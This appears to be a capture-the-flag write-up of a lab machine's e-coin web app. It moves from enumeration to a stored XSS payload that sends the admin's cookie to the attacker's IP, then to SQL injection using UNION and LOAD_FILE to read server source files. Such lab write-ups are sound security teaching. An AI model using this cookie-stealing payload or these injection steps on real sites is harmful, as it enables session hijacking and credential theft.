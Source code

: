 A pretty standard output, let's see what is running on port 80.

When we visit the site we are greated with a bitcoin / e-coin system.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-46.png" >}}

The source for the site doesn't provide much info. It looks like we are able to register an account and login. Once we do we are given the ability to transfer E-coin as well.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-47.png" >}}

When we try to make a transfer we are told an admin will need to review it.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-48.png" >}}

Now that we know some of the functions that are available, let's see how they function within ```Burpsuite```. We see that when we create a user and attempt to login, our credentials are sent in ```base64```. When we try to create a transaction we see that way the request is formated:

{{< figure src="__GHOST_URL__/content/images/2019/11/image-49.png" >}}

It looks like we'll need to start fuzzing against the HTTP requests to see what might be vulnerable. Common items that I usually fuzz right off the bat for HTTP requests are request type, cookie values, data values and referrer. None of that seemed to work this time around. Since we are making requests, we might be able to leverage client side attacks. [This resource](https://www.giac.org/paper/gsec/2202/exploring-client-side-web-exploits/103747) is particularly good for our scenario, as well as [this list](https://www.vulnerability-lab.com/resources/documents/531.txt).

We will be slightly modifying our ```XSS``` to reflect back to us. We can do this by making the error source of our attack our machine address. We simply start up a Netcat listener and wait for the response to come back with the request. Our payload will look something like this, it's almost right out of the link above:

```<img src=x onerror=this.src="http://10.10.14.5/?c="%2bdocument.cookie>```

Once we send the request we wait.. and wait.. and wait..

{{< figure src="__GHOST_URL__/content/images/2019/11/burpe-request-bankrobber.gif" >}}

Finally we get a request back with a header info that we can decrypt for username and password.

{{< figure src="__GHOST_URL__/content/images/2019/11/creds-bankrobber.gif" caption="We now that URL encoding for %3D is '=' so we replace it." >}}

There we have it, a pair of credentials. Now let's log in as admin. Once we've logged in we are greeted with a new dashboard. We have the ability to look up user ID's, check for backdoors and approve / deny transactions. We also have a link at the top called Notes.txt. We look at the notes file and see that the only TODO on the list is move all the files from the default Xampp folder, this will be useful.

When we try to use the backdoor checker we are told that we can only execute from localhost. Looks like we'll want to head back into Burpsuite to see what we can do to leverage these functions.

The first thing we'll test is the search function. We might be able to use some kind of ```SQL Injection``` to gain more info. Simply sending a ```'``` attached to the ```term``` gives us back an SQL syntax error. Hopefully we can use this in conjunction with the the knowledge of the defaul Xampp layout to get the sources of the pages we have here. We can use a simple ```UNION``` and ```LOAD_FILE``` to get this done.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-52.png" >}}

And our response is:

{{< figure src="__GHOST_URL__/content/images/2019/11/image-53.png" >}}

We can repeat these steps for search the ```search.php```, ```transfer.php```, ```auth.php``` and ```link.php``` as well. Inside ```link.php``` we see some more credentials.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-54.png" >}}
```